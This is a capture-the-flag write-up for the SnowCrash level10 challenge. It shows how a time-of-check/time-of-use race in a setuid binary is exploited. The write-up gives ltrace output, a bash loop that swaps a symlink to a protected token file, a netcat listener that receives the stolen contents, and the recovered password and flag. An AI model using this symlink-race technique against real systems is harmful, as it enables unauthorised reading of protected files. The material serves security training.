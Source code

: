 # Level10 Documentation

## Objective
Exploit a race condition vulnerability in the `level10` binary to read the protected `token` file.


## Approach & Tools
- **Technique**: TOCTOU (Time-of-Check to Time-of-Use) attack via symlink switching
- **Commands**: `ltrace`, `ln`, `nc`,
- **Key Insight**: Binary checks file access permissions separately from opening the file

## Step-by-Step Solution
once we log into level10 account we find a ```level10```nad ```token``` files
```bash
ls -la
```
#### output 
```bash
-rwsr-s---+ 1 flag08  level08 8617 Mar 5 2016 level10
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

### 1. Analyze the Binary with ltrace
We do not have access to the file token. When we execute the binary level10 we get the folloing  result :

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```
testing whit /tmp/test:
```bash
level10@SnowCrash:~$ ./level10 /tmp/test 127.0.0.1
Connecting to localhost:6969 .. Unable to connect to host localhost
```

Set Up Listener in auther terminal:
```bash
nc -l 6969
```
### 2.Analyze the Binary with ltrace
```bash
level10@SnowCrash:~$ ltrace ./level10 /tmp/test 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)                           = 0
printf("Connecting to %s:6969 .. ", "127.0.0.1") = 32
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                               = 0
socket(2, 1, 0)                                  = 3
inet_addr("127.0.0.1")                           = 0x0100007f
htons(6969, 1, 0, 0, 0)                          = 14619
connect(3, 0xbffff71c, 16, 0, 0)                 = 0
write(3, ".*( )*.\n", 8)                         = 8
printf("Connected!\nSending file .. "Connected!
)           = 27
fflush(0xb7fd1a20Sending file .. )                               = 0
open("/tmp/test", 0, 010)                        = 4
read(4, "test\n", 4096)                          = 5
write(3, "test\n", 5)                            = 5
puts("wrote file!"wrote file!
)                              = 12
+++ exited (status 12) +++
```
#### Critical Output:
```bash
access("/tmp/testfile", 4)                             = 0  
open("/tmp/testfile", O_RDONLY)                        = 3
```
This reveals the security flaw:

1. First checks access with access()

2. Later opens the file with open()

3. The time gap between these calls is exploitable

### 3 .Exploit the Race Condition
Create Attack Script (/tmp/attack.sh):
```bash
#!/bin/bash
while true; 
do
    ln -sf /tmp/test /tmp/lnk
    ln -sf /home/user/level10/token /tmp/lnk
done &
```
### 4. Execute the Attack
Run exploit in Terminal 1:

```bash
chmod +x /tmp/attack.sh
/tmp/attack.sh
./level10 /tmp/lnk 127.0.0.1
```
Run listener in Terminal 2:

```bash
while true; do nc -l 6969 | grep -v '.*( )*.'; done
```
Output:
```bash
woupa2yuojeeaaed06riuj63c
```
### 5. Retrieve Level11 Token
```bash
su flag10
Password: woupa2yuojeeaaed06riuj63c
getflag
```
#### Output:
```bash
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
### Key Takeaways

* TOCTOU Matters: File operations should be atomic

* Symlink Attacks: Always consider file path manipulation possibilities

* Network Exfiltration: Unintended network features can become attack vectors